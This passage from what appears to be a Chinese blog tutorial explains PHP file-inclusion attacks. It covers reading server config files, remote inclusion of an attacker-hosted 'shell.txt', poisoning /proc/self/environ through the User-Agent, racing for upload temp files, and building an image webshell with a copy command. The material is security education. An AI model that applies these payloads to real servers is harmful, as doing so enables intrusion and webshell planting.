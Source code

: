 ```
        /etc/httpd/conf/httpd.conf
或者
         index.php?page=/etc/init.d/httpd
(2) IIS6.0+win2003 配置文件
        C:/Windows/system32/inetsrv/metabase.xml
(3) IIS7.0+WIN 配置文件
        C:\Windows\System32\inetsrv\config\applicationHost.config
```
一般来说，Apache，nginx运行后一般默认会生成两个日志文件，Windos下是access.log（访问日志）和error.log(错误日志)，Linux下是access_log和error_log，访问日志文件记录了客户端的每次请求和服务器响应的相关信息。
###  远程文件包含
####  条件
php配置的allow_url_include = on必须为on（开启）,可以在phpinfo里看
####  流程
使用file=http://xxx.xxx/shell.txt
包含后利用恶意代码
###  PHPSESSION包含
[上一篇文章有](https://blog.csdn.net/unexpectedthing/article/details/119488678?spm=1001.2014.3001.5501)
###  包含/proc/self/environ文件
proc/self/environ中会保存user-agent头，如果在user-agent中插入php代码，则php代码会被写入到environ中，之后再包含它，即可。
利用条件：
php以cgi方式运行，这样environ才会保持UA头。
environ文件存储位置已知，且environ文件可读。
参考：
https://blog.csdn.net/god_7z1/article/details/7904789
###  包含临时文件
####  过程
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/732055805a4947f2880d94dff9401b42.png)
php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在代码执行结束后，临时文件会被删除。在临时文件被删除之前，利用条件竞争即可包含该临时文件

由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux下使用的随机函数有缺陷，而window下只有65535中不同的文件名，所以这个方法是可行的。

另一种方法是配合phpinfo页面的php variables，可以直接获取到上传文件的存储路径和临时文件名，直接包含即可。

类似利用临时文件的存在，竞争时间去包含的，可以看看这道CTF题：
[CTF题](https://chybeta.github.io/2017/08/22/XMAN%E5%A4%8F%E4%BB%A4%E8%90%A5-2017-babyweb-writeup/)
###  包含上传文件
很多网站通常会提供文件上传功能，比如：上传头像、文档等，这时就可以采取上传一句话图片木马的方式进行包含。

图片马的制作方式如下，在cmd控制台下输入：

1. 进入1.jph和2.php的文件目录后，执行：

2. copy  1.jpg/b+2.php/a  3.jpg

3. 将图片1.jpg和包含php代码的2.php文件合并生成图片马3.jpg

假设已经上传一句话图片木马到服务器，路径为/upload/201811.jpg
图片代码如下：
